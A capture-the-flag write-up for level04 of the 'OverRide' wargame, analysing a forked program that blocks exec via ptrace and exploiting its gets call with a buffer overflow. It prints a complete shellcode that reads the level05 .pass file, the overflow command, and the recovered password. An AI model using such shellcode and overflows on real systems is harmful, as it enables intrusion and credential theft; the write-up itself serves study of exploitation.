 # level04

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Basically, this program declares a buffer of 32 bytes, then calls `fork` to create a child process :

- In the child process, `ptrace` is used to make the process trackable, `puts` displays the hint "Give me some shellcode, k", then `gets` is called to fill the buffer.

- In the same time, the parent process wait for a status update from the child. If it receives a `SIGCHLD`, meaning the child process has exited, it returns too. Otherwise, it uses `ptrace` to monitor the syscalls done by the child process, especially looking for an `exec` call. If it catchs one, it kills the process and returns.

From here, we know that we have to design a shellcode that does not use any call to `exec`, and obviously find a way to call it. The use of `gets` inside the child process seems to be a good entrypoint for a buffer overflow attack.

## Exploit

We first look for the right offset to overwrite the return address, using a buffer overflow string generator. The result is 156.

Since we can't use the syscall `exec` , we will use a shellcode which calls `open/read/write` in order to print the content of the `.pass` file from the level05 user home. We add a nop sled in front of it and export it to the environment.

```console
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*10 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ env | grep SHELLCODE
SHELLCODE=����������1�1�1�1��2[�1�̀����1�̀�����
                                             $�̀1�9�t���̀���������/home/users/level05/.pass
``` 

Finally, we find the address of our variable SHELLCODE on the stack by running the executable in GDB, then run it again sending a string of 156 bytes followed by this address (plus a 16 bytes offset) to land into our nop sled.

```console
level04@OverRide:~$ python -c 'print "A" * 156 + "\x8c\xd8\xff\xff"' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```